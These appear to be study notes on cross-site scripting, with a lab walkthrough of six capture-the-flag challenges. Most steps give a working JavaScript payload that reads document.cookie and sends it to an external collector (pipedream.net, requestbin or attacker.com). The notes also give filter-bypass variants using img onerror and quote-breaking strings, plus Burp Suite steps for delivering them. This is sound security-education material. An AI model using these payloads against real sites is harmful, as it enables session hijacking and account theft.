# XSS
* Cross-site scripting (XSS) is a web security vulnerability that allows attackers to inject malicious code into a user's browser.

## Part 1. Report
 
## Part 2. XSS
- Working on Web Browser: JavaScript
- Working location: victim's web browser

1. Stored XSS -> Save in the server
2. Reflected XSS -> rebound from Server
3. XSS, CSRF
4. Steal cookie by using JavaScript

```javascript
var cookieData = document.cookie;
var i = new Image();
  i.src = "HTTP://normaltic.attacker.com/
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + "Secret_data";
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + cookieData;
```

5. VPS or requestbin - https://public.requestbin.com/r/

6. XSS
   [Common XSS Errors[(https://github.com/imnarendrabhati/testing-new/blob/master/%3CIMG%20SRC%3DX%20ONERROR:JAVASCRIPT:ALERT(1)%3B%3E)

1) CTF XSS 1 (https://portswigger.net/web-security/cross-site-scripting/contexts)
- Error = Input script
- Annoucement and create content "<script>alert(1)</script>" on the subject.
- When you click it, the alert shows up.
- Instead of alert(1), put
```javascript
var i = new Image(); i.src = "HTTP://en7riltg206nc.x.pipedream.net/getCrred.php?cookie=" + cookieData;
```
- In BurpSuite, instead of alert(1), put the below code
```javascript
var cookieData = document.cookie; 
var i = new Image();
i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;
```
- On the admin visit url = type the address made by the attack post
- Check the flag on https://public.requestbin.com/

7. DOM Based XSS
- Create a tag by using JavaScript
- Create and execute a new script from a browser
- an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim's browser used by the original client-side script,
- document.write = "";
- innerHTML

## Part 3. Assignment
1. Review
2. XSS CTF <br>
a. CTF XSS 2
  - Error = Showing the direct sentence on HTML
```javascript
<script>alert('x에 대한 검색 결과가 존재하지 않습니다.');</script>
```
  - Check Attack statement on search bar
```javascript
xss');alert(1);var i=('
```
  - Check Attack
```javascript
xss');var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;var i=('
```
  - Send to repeater the POST URL to change GET method
  - Replace the Repeater on Burp Suite, working on the GET method instead of the POST method because the host gets the access
  - The GET URL inputs the admin visit URL bar
  - Check the flag on https://public.requestbin.com/

b. CTF XSS 3
  - Error = Showing ID on the URL on the personal information 
  - Check the attack possibility to change the ID on Burp Suite Request
  - Check the attack statement => aaa"/><script>alert(1)</script>
  - Check the attack => aaa"/><script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
  - Copy GET URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

c. CTF XSS 4
  - Error = In the board, it is possible to use special characters (<'">).
  - Check the attack possibility of using an attack statement on the board. => <script>alert(1)</script>
  - Filtering "script" and "alert", so using another attack statement => <img src=x onerror=confirm(1)> 
  - Check the attack => <img src="https://x" onerror="location.href='http://enjt04rx79at.x.pipedream.net/?cookie=' + document.cookie;">
  - Block the long subject
  - Check the attack on the content box
  - Copy URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

d. CTF XSS 5
  - Error = In the board, it is possible to use special characters (<'">), but it converts &lt;
  - Check the attack possibility of using an attack statement on the board => <script>alert(1)</script>
  - Using the Burp Suite, the website should be intercepted step by step
  - Create a new post and forward
  - Check the attack statement => <script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
  - During the intercept, change the filtered attack statement
  - Open the new post and copy the URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

e. CTF XSS 6
  - Error = When you log in wrong, the alert pops up.
  - Check the attack possibility in the Burp Suite
  - The POST proxy sends to Repeater and changes the method to GET
  - Check special characters and it works
  - Check the attack statement => +]');alert(1)//
  - Check the attack => +]');location.href='http://enjt04rx79at.x.pipedream.net/?cookie='%2bdocument.cookie;//
  - Copy URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

f. CTF XSS Challenge 
